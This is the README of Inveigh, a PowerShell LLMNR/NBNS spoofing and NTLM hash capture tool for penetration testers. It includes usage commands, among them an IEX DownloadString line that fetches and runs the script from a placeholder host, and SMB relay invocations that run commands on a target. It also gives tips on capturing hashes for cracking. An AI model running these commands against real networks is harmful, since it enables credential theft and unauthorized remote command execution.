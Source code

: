 # Inveigh
Inveigh is a Windows PowerShell LLMNR/NBNS spoofer designed to assist penetration testers that find themselves limited to a Windows system. This can commonly occur while performing standard post exploitation, phishing attacks, USB drive attacks, VLAN pivoting, or simply being restricted to a Windows system as part of client imposed restrictions.

# Requirements
Tested minimums are PowerShell 2.0 and .NET 3.5

# Notes
1. Currently supports IPv4 LLMNR/NBNS spoofing and HTTP/HTTPS/SMB NTLMv1/NTLMv2 challenge/response capture.
2. LLMNR/NBNS spoofing is performed through sniffing and sending with raw sockets. 
3. SMB challenge/response captures are performed by sniffing over the host system's SMB service.
4. HTTP challenge/response captures are performed with a dedicated listener.
5. The local LLMNR/NBNS services do not need to be disabled on the host system. 
6. LLMNR/NBNS spoofer will point victims to host system's SMB service, keep account lockout scenarios in mind.
7. Kerberos should downgrade for SMB authentication due to spoofed hostnames not being valid in DNS.
8. Ensure that the LMMNR,NBNS,SMB,HTTP ports are open within any local firewall on the host system.
9. If you copy/paste challenge/response captures from output window for password cracking, remove carriage returns.
10. SMB relay support is experimental at this point, use caution if employing on a pen test.

# Usage
Obtain an elevated administrator or SYSTEM shell and use a method to load the module

To import with Import-Module:  
Import-Module ./Inveigh.psd1

To import individual files with Import-Module
Import-Module ./Inveigh.ps1
Import-Module ./Inveigh-Relay.ps1

To import using dot source method:  
. ./Inveigh.ps1
. ./Inveigh-Relay.ps1

To load into memory using Invoke-Expression:  
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh.ps1")
IEX (New-Object Net.WebClient).DownloadString("http://yourhost/Inveigh-Relay.ps1")

To execute with default settings:  
Invoke-Inveigh

To load and execute with one line:    
Import-Module ./Inveigh.ps1;Invoke-Inveigh

To execute with features enabled/disabled:   
Invoke-Inveigh -IP 'local IP' -SpoofIP 'local or remote IP' -LLMNR Y/N -NBNS Y/N -NBNSTypes 00,03,20,1B -HTTP Y/N -HTTPS Y/N -SMB Y/N -Repeat Y/N -ConsoleOutput Y/N -FileOutput Y/N -OutputDir 'valid folder path'

To execute with SMB relay enabled through Invoke-Inveigh:  
Invoke-Inveigh -SMBRelay Y -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

To execute with SMB relay with only Invoke-InveighRelay:  
Invoke-InveighRelay -SMBRelayTarget 'valid SMB target IP' -SMBRelayCommand "valid command to run on target"

Use 'Get-Help -parameter * Invoke-Inveigh' for a full list of parameters

# Functions
Invoke-Inveigh - Start Inveigh with or without parameters  
Invoke-InveighRelay - SMB relay function  
Get-Inveigh - Get queued console output  
Get-InveighLog - Get log entries  
Get-InveighNTLM - Get all captured challenge/response hashes  
Get-InveighNTLMv1 - Get captured NTLMv1 challenge/response hashes  
Get-InveighNTLMv2 - Get captured NTLMv2 challenge/response hashes  
Get-InveighStats - Get captured challenge/response counts  
Watch-Inveigh - Enable real time console output  
Clear-Inveigh - Clear Inveigh data from memory  
Stop-Inveigh - Stop all running Inveigh functions    

# Screenshots
Invoke-Inveigh execution with real time console and file output enabled
![inveigh1](https://cloud.githubusercontent.com/assets/5897462/10326306/98bb11da-6c67-11e5-8c58-c9ed1107ec19.png)

Retrieval of captured NTLM2 challenge/response hashes with Get-InveighNTLMv2
![inveigh2](https://cloud.githubusercontent.com/assets/5897462/10326313/abde41d8-6c67-11e5-91b8-0c55271ba326.png)

HTTP to SMB Relay
![inveigh3](https://cloud.githubusercontent.com/assets/5897462/10326314/b2de540a-6c67-11e5-8627-fe5d27018dc3.png)

Module import and execution through one of Ben Turner and Dave Hardy's Metasploit Interactive PowerShell Session payloads
![inveigh5](https://cloud.githubusercontent.com/assets/5897462/10354363/53e73784-6d2d-11e5-8509-9bb7f3feab88.png)
